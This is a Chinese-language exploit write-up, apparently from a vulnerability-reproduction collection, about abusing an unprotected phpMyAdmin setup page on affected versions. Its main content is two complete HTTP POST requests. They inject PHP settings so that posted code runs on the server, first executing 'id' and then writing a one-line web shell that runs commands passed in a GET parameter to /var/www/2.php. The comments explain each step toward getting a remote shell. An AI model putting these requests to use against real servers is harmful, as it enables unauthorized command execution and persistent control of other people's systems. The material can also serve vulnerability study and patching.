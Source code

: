 Phpmyadmin setup页面配置不当的利用姿势整合
==========================================

一、漏洞简介
------------

其安装在Web服务器上的接口界面,主要用于使用php来管理安装服务器上的后台数据库(MySQL数据库),但如果采用默认安装,敏感路径未做出处理,便会存在安全漏洞,最突出的是其setup脚本中存在着服务器端请求伪造漏洞。远程攻击者可利用该漏洞执行未授权的操作。

二、漏洞影响
------------

phpMyAdmin
4.0.10.19之前的版本，4.4.15.10之前的4.4.x版本，4.6.6之前的4.6.x版本。

三、复现过程
------------

如果用户未对phpmyadmin目录下的setup文件进行安全处理,那普通用户可以在不进行身份认证的情况下,便可以配置服务器信息(防范措施:不允许其他用户从公网访问phpMyAdmin目录或者禁止访问setup文件)![1.png](./.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId24.png)我们可以通过构造参数执行配置指令,并利用php伪协议提交post内容执行

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1      
     #问号及其后面的内容用于修改修改php的主配置文件php.ini，从而可以执行下面插入的php代码

    Host: www.0-sec.org 

    Content-Length: 35

    <?php 

    passthru('id');        
     #passthru() 函数用于调用系统命令，并把命令的运行结果原样地直接输出到标准输出设备上。
     #也可以将id命令换成其他Linux命令去获取web系统的数据,目前使用的是普通用户www-date,权限有限

    die();                
     #die() 函数输出一条消息，并退出当前脚本,此处使用为了避免获取多余无用的信息

    ?>

可以使用Burpsuite的Repeater工具该发送post请求,获取目标的信息![3.png](./.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId25.png)由刚刚的id命令得知目前的用户为www-data,由查看账户信息得知其主目录为/var/www,那么便可以向其主目录写入木马,以实现远程控制的效果![4.png](./.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId26.png)![5.png](./.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId27.png)命令如下

    POST http://www.0-sec.org/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 102

    <?php 

    passthru('echo "<?php \$cmd = \$_GET["cmd"];system(\$cmd);?>" >/var/www/2.php');
    #该木马表示将GET方式获取的指令赋值于cmd命令,并使用system()函数运行cmd变量存储的命令
    #反斜杠作用:避免服务器将上传内容过滤,输入命令无效
    die();

    ?>

通过在浏览器访问该木马,便可获取目标系统的shell![6.png](./.resource/Phpmyadminsetup页面配置不当的利用姿势整合/media/rId28.png)

参考链接
--------

> https://louisnie.github.io/2018/10/23/%E6%89%8B%E5%8A%A8%E6%8C%96%E6%8E%98%E4%B9%8B%E9%BB%98%E8%AE%A4%E5%AE%89%E8%A3%85%E6%BC%8F%E6%B4%9E-1/
